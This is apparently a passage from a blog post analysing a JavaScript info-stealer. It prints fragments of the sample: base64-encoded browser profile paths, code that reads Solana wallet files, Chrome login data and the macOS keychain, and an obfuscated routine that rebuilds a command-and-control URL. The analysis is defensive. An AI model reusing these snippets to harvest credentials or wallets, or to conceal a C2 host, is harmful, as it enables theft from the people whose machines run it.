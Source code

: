 oh... well... that looks very much not like what a regular program would need. Especially `require("child_process")["exec"]`

> **Side note**: They really didn't even change the variable names. When they import with `require("child_process")["exec"]` they name the variable `ex` as in execute...
{: .prompt-info}

```js
    j = "L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC8", // "/Library/Application Support/"
    L = "L0FwcERhdGEv", // /AppData/
    x = "L1VzZXIgRGF0YQ", // /User Data
    F = "R29vZ2xlL0Nocm9tZQ", // Google/Chrome
    R = ["TG9jYWwvQnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy", // Local/BraveSoftware/Brave-Browser
     "QnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy", // BraveSoftware/Brave-Browser
      "QnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy"], // BraveSoftware/Brave-Browser
    Q = ["TG9jYWwvR29vZ2xlL0Nocm9tZQ", F, "Z29vZ2xlLWNocm9tZQ"], // Local/Google/Chrome    ,    google-chrome
    X = ["Um9hbWluZy9PcGVyYSBTb2Z0d2FyZS9PcGVyYSBTdGFibGU", // Roaming/Opera Software/Opera Stable
     "Y29tLm9wZXJhc29mdHdhcmUuT3BlcmE", // com.operasoftware.Opera
```

It is also trying to do something with browser data, these are already signs of some stealer, it's weird that it's doing it in the first stage?

Maybe this is not so competent of a malware after all... (foreshadowing)

We can also see it trying to steal some crypto. Weird thing is, it's only trying one kind:

```js
 const t = "solana_id.txt";
            if (e = `${hd}${"/.config/solana/id.json"}`, a[G](e)) try { // these used to be an encoded strings I just cleaned it up

```

We can also see it trying to steal login data:
```js
        const c = "Login Data",
            r = "createReadStream",
            e = "/Library/Keychains/login.keychain",
            l = "logkc-db";
```

> Side note: They really didn't even change the variable names, when they import with `require("child_process")["exec"]` they name the variable `ex` as in execute...

### The URL 
There is one encoding that is more difficult than others, since it doesn't use `n` or `e`.
```js
    Z = () => {
        let t = "MTQ3LjEyNCaHR0cDovLw4yMTIuODk6MTI0NA==  ";
        for (var c = "", a = "", r = "", e = "", l = 0; l < 10; l++) c += t[l], a += t[10 + l], r += t[20 + l], e += t[30 + l];
        return c = c + r + e, n(a) + n(c)
    },
```
